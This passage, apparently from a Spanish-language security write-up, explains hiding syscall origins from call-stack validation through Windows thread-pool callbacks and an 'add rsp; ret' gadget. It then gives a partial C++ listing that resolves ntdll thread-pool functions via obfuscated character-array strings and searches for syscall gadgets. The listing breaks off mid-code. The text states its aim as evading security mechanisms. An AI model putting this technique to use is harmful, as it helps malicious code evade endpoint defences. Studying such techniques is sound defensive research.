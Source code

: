 Siendo el 0 la dirección de la función que aprovechamos para ejecutar la Syscall y el 1 la dirección donde se encuentra el gadjet. De esta manera no habría rastro de nuestro código en la CallStack y lograríamos evadir los mecanismos de seguridad que la validan.

```c++
#include <windows.h>
#include <cstdio>

//Definition of the Windows Thread Pooling functions
typedef NTSTATUS(NTAPI* TPALLOCWORK)(PTP_WORK* ptpWrk, PTP_WORK_CALLBACK pfnwkCallback, PVOID OptionalArg, PTP_CALLBACK_ENVIRON CallbackEnvironment);
typedef VOID(NTAPI* TPPOSTWORK)(PTP_WORK);
typedef VOID(NTAPI* TPRELEASEWORK)(PTP_WORK);

FARPROC pTpAllocWork;
FARPROC pTpPostWork;
FARPROC pTpReleaseWork;

typedef struct _NTALLOCATEVIRTUALMEMORY_ARGS {
    HANDLE hProcess;
    PVOID* address;
    SIZE_T zeroBits;
    PSIZE_T size;
    ULONG allocationType;
    ULONG permissions;
    DWORD ssn;
} NTALLOCATEVIRTUALMEMORY_ARGS, *PNTALLOCATEVIRTUALMEMORY_ARGS;

//Rutina de ensamblador
extern "C" void NtAllocateVirtualMemory_Callback(
    PTP_CALLBACK_INSTANCE Instance,
    PVOID Context,
    PTP_WORK Work
);

extern "C" void Search_For_Syscall_Ret(
    HANDLE ntdllHandle
);

extern "C" void Search_For_Add_Rsp_Ret(
    HANDLE ntdllHandle
);

int main() {
    unsigned char sNtdll[] = { 'n', 't', 'd', 'l', 'l', '.', 'd', 'l', 'l', 0x0 };
    HMODULE hNtdll = GetModuleHandleA((LPCSTR)sNtdll);

    unsigned char sTpAllocWork[] = { 'T', 'p', 'A', 'l', 'l', 'o', 'c', 'W', 'o', 'r', 'k' , 0x0 };
    pTpAllocWork = GetProcAddress(hNtdll, (LPCSTR)sTpAllocWork);

    unsigned char sTpPostWork[] = { 'T', 'p', 'P', 'o', 's', 't', 'W', 'o', 'r', 'k' , 0x0 };
    pTpPostWork = GetProcAddress(hNtdll, (LPCSTR)sTpPostWork);

    unsigned char sTpReleaseWork[] = { 'T', 'p', 'R', 'e', 'l', 'e', 'a', 's', 'e', 'W', 'o', 'r', 'k', 0x0 };
    pTpReleaseWork = GetProcAddress(hNtdll, (LPCSTR)sTpReleaseWork);

    //Search for Syscall + Ret
    Search_For_Syscall_Ret(hNtdll);

    //Search for add rsp, 78 + Ret
    Search_For_Add_Rsp_Ret(hNtdll);

    //Preparation of the structure NTALLOCATEVIRTUALMEMORY_ARGS
```